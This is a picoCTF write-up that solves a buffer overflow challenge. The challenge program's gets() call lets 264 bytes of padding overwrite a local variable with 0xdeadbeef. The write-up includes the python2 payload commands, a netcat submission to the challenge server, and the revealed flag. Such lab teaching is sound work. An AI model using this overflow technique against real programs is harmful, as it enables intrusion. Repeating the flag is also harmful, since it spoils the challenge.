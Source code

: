 # Solution

Let's start by looking at the `chall.c` file:

Here's some notable definitions and the `main` function
```c
#define SIZE 0x100
#define GOAL 0xdeadbeef


int main(void)
{
  long code = 0;
  char clutter[SIZE];

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);
 	
  puts(HEADER); 
  puts("My room is so cluttered...");
  puts("What do you see?");

  gets(clutter);


  if (code == GOAL) {
    printf("code == 0x%llx: how did that happen??\n", GOAL);
    puts("take a flag for your troubles");
    system("cat flag.txt");
  } else {
    printf("code == 0x%llx\n", code);
    printf("code != 0x%llx :(\n", GOAL);
  }

  return 0;
}
```

In order for our flag to print, we want to have `code == GOAL` be true, because we can see that that's where `system("cat flag.txt")` is executed. Recall that `cat flag.txt` will print the contexts of the file flag.txt.

Ok! How can we get code to equal GOAL, which happens to `0xdeadbeef`. There's no assignments for `code` earlier in the code, but there is one for `clutter`. In the line
`gets(clutter)`.  If you look at the man page for gets (by calling `man gets` in the terminal) you can see that the description says "Never use this function". Why? Because it keeps reading from user input until it finds a new line '\n' or EOF. Which means we can overwrite stuff with the `gets` command.

Looking at the main function, we see that
```c
long code = 0;
char clutter[SIZE];
```
`code` is defined before `clutter`. Recall that local variables are stored on the stack. Because of the ordering of definitions, we are able to overwrite whatever's stored in `code`. (The stack grows down towards lower memory addresses).

Here's a hypothetical stack space (it's not actually like this) just to demonstrate that `clutter` can overwrite `code`.

```
address FFFFFF

address ...
address 802000         code
address 80FFF2         clutter
address ...

address 000000
```
When we write into `clutter` it starts writing at 0x80FFF2, then 0x80FFF3, then 0x80FFF4 etc. Which is why it can overwrite `code`, even though the stack grows down, when we write to it we write in ascending address order.

Ok, we must overwrite `clutter`, how large is it? We see in the code that it's so size `SIZE`, and that `SIZE` of equal to `0x100`, which is 256.

There are two approaches that follow this, we want to find out the stack layout so we know how much to overwrite in order to overwrite `code`, the first approach, trial and error, is made a lot easier because of the code provided. What that is is the fact that they print what's stored in code for us with the line `printf("code == 0x%llx\n", code);`, so we can try overwriting clutter and see if the overwrite into `code` right away, or if there's anything else in the stack inbetween `code` and `clutter`.

Here's what I did on my terminal
```
$ python2 -c "print('A'*256 + 'ABCD')" > out
$ ./chall < out
```
What's happening here? I'm calling `python2 -c`, the -c switch allows me to write python code without jumping into a python shell or anything like that, basically "python2 -c <insert code here>" is what it means, and it'll execute the code provided.

I'm executing a print statement, where I print 256 A's, and then "ABCD".

Then there's the `> out`, what I'm doing is I'm directing whatever the output of my previous command is, and putting it into a file called `out`. Then, I'm executing `chall` and with `< out`, I'm directing whatever's in `chall` into the executable. This is equivalent to my executing `chall`, and then typing in 256 A's and then ABCD. A bit of terminal magic makes it a lot more convenient.

What's outputted?
```
My room is so cluttered...
What do you see?
code == 0x0
code != 0xdeadbeef :(
```
Damn, the code is 0x0, we're not overwriting code yet. Let's try printing 264 A's instead. Why 264? I'm adding 8. Why am I adding 8? Because that's usually the size of an address, so it is a reasonable offset to try.

```
$ python2 -c "print('A'*264 + 'ABCD')" > out
$ ./chall < out
```

What's outputted?
```
My room is so cluttered...
What do you see?
code == 0x44434241
code != 0xdeadbeef :(
```
Ah! We've found the right offset and overwritten `code`. Let's try to understand what's going on. The output says that `code == 0x44434241`. Recall ascii conversions, A is equivalent to 0x41, B is equivalent to 0x42, etc. `code` is basically storing "DCBA", why is it reversed?

Basically, stuff on the stack is stored in "little endian", which is a complicated alternative way to order stuff. Why do they do this? I'm not sure. But read [this](https://www.tutorialspoint.com/big-endian-and-little-endian) if you want to know more. I recommend you read it to get familiar with the formatting.

So instead of writing "ABCD" we want to write `0xdeadbeef`, if we just do 
```
$ python2 -c "print('A'*264 + 'deadbeef')" > out
```
or 
```
$ python2 -c "print('A'*264 + '0xdeadbeef')" > out
```
we won't get what we want, because in these two examples, we're writing the string `0xdeadbeef` or `deadbeef`, we want to write the HEX VALUES `0xdeadbeef`. There's no ascii equivalent for `0xde` or `0xad` so this does make it a little harder. 

But don't worry! Python to the rescue, we can write hex in this format: `\xde\xad\xbe\xef`

```bash
$ python2 -c "print('A'* 264 + '\xde\xad\xbe\xef')" > out
$ ./chall < out
```

If you thought "wait what about little endian?" I'm glad you realized, in the code above, I'm not considering little endian, I'm just showing this for demonstrative purposes. What would the output be in this case?

```
My room is so cluttered...
What do you see?
code == 0xefbeadde
code != 0xdeadbeef :(
```

If we change the order of our input so that it's in little endian:

```bash
$ python2 -c "print('A'* 264 + '\xef\xbe\xad\xde')" > out
```
and then instead of directing it into the `chall` executable, we direct it into the netcat server:
```
$ nc mars.picoctf.net 31890 < out
 ______________________________________________________________________
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \^ ^ |
|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \ ^ _ ^ / |                | \^ ^|
| ^/_\^ ^ ^ /_________\^ ^ ^ /_\ | //  | /_\ ^| |   ____  ____   | | ^ |
|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|
| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |
|^ ^ ^ ^ ^| /     (   \ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \|^ ^|
.-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |
|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\ |^ ^|
| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |
|'.____'_^||/!\@@@@@/!\|| _'______________.'|==                    =====
|\|______|===============|________________|/|""""""""""""""""""""""""""
" ||""""||"""""""""""""""||""""""""""""""||"""""""""""""""""""""""""""""  
""''""""''"""""""""""""""''""""""""""""""''""""""""""""""""""""""""""""""
""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
My room is so cluttered...
What do you see?
code == 0xdeadbeef: how did that happen??
take a flag for your troubles
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}

```
We got this flag! Well done.
